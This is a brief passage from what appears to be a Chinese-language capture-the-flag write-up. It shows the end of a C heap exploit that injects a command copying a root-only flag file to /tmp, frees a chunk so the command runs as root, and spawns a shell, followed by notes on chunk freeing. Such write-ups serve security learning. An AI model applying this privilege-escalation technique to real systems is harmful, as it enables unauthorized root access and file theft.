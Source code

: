 ```
    x = conn();
    write(x, "/bin/cp /root/flag /tmp; /bin/chmod a+r /tmp/flag\0", 0x50);
    // free the chunk, executes the command as root
    close(x);

    // we can now cat /tmp/flag
    fflush(stdout);
    system("/bin/sh");
    return 0;
```

![](./img/13.png)



几个比较有意思的点：

##### 一、write('\n')会释放chunk

write(conns[13], "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
下面是几个关键截图：
![](./img/15.png)